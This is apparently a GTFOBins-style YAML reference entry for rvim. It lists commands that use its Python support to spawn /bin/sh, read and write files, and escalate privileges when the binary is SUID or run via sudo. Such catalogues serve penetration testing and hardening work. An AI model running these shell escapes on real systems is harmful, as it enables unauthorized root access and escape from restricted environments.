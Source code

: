 ```yaml
---
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  file-write:
    - description: This requires that rvim is compiled with Python support.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  suid:
    - description: This requires that `rvim` is compiled with Python support.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
---
```

